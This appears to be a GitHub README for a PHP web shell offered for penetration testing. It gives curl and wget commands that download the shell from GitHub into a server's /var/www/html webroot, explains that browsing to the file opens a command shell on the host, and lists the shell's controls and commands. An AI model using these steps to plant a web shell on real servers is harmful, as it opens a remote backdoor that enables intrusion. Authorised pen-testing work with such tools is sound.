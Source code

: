 # php-shell
A simple, intuitive, feature rich, php web shell for pen testing.

### Usage

To download use one of the following (or similar)

```bash
curl https://github.com/eb3095/php-shell/raw/master/php-shell.php > /var/www/html/php-shell.php
```

```bash
wget https://github.com/eb3095/php-shell/raw/master/php-shell.php -O /var/www/html
```

From there just visit the website with /php-shell.php at the end and enjoy your web based shell from the host!

### Controls

* Arrow Up: History up
* Arrow Down: History down
* Enter: Run command
* Click Anywhere: Focus command prompt

History is not saved across sessions and is stored locally in the browser for the time being.

### Commands

* exit: Log out
* cd: Change directory
* cls: Clear the screen

cd is unique here. If you do the following,

```bash
cd /home; ls
```

This will be executed as a SH/BASH command. The cd will not set the current working directory outside of the exec. However,

```bash
cd /home
```

This will be executed as an internal command setting the PHP cwd and it is permanent (until refresh).